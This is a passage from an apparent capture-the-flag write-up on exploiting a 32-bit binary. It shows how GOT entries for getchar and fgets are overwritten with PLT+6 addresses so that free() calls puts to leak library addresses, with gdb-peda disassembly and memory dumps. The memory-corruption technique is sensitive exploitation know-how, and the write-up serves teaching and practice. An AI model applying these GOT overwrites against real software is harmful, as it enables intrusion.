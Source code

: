 Basically it would turn this:
{%highlight bash %}
0x804a010:  0xf75bdc60  0xf75ae4a0
{%endhighlight%}

into this:
{%highlight bash %}
0x804a010:  0x08048490  0xf75ae40a
{%endhighlight%}

`0xf75ae40a` is not the address we want executing when `getchar()` is called!

So, to get around this issue, I overwrote `getchar@got` and `fgets@got` with their corresponding `@plt` entries `+6`! Or `0x08048466` and `0x08048476`, respectively.
We `+6` to the PLT addresses because the first instruction of any **.plt** address is just a jump to the corresponding function in the **got.plt** section which would've cause an infinite loop.

{% highlight bash %}
gdb-peda$ pdisas 0x08048460
Dump of assembler code from 0x8048460 to 0x8048480::	Dump of assembler code from 0x8048460 to 0x8048480:
   0x08048460 <getchar@plt+0>:	jmp    DWORD PTR ds:0x804a014
   0x08048466 <getchar@plt+6>:	push   0x10
   0x0804846b <getchar@plt+11>:	jmp    0x8048430
{% endhighlight %} 

*The astute reader will now point out that the newline char would just move over into the lsb of `malloc@got` which is correct, but we don't actually care that `malloc@got` is now corrupt because we don't plan on calling `malloc()` again for the rest of our exploit!*
 
So to put all this together, I wrote the addresses of the **GOT** entries I wanted to leak into the `ptr` array, and called the `free()` function, which now actually calls `puts@plt`, on each one of the `ptr` indices.
 
Ultimately, this is what our **.got.plt** and **.bss** sections should look like after everything is correctly setup, but before the `free()`'s.
{% highlight bash %}
gdb-peda$ x/68xw 0x804a000
0x804a000:	0x08049f14	0xf773e938	0xf77314f0	0xf7594280
0x804a010:	0x08048490	0x08048466	0x08048476	0xf75b000a
0x804a020:	0xf75ac650	0xf7560990	0xf75acd30	0xf759cf40
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040 <stdin@@GLIBC_2.0>:	0xf76f1c20	0xf76f1ac0	0x00000000	0x00000004
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060 <tmp>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070 <tmp+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080 <tmp+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090 <tmp+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0 <tmp+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0 <tmp+80>:	0x00000000	0x00000089	0x00000000	0x00000000
0x804a0c0 <tmp+96>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d0 <tmp+112>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0 <ptrs>:	0x0804a010	0x0804a00c	0x0804a014	0x0804a0e0
0x804a0f0 <ptrs+16>:	0x0804a020	0x0804a024	0x0000000a	0x00000000
0x804a100 <ptrs+32>:	0x00000000	0x00000000	0x00000000	0x00000000
{% endhighlight %} 

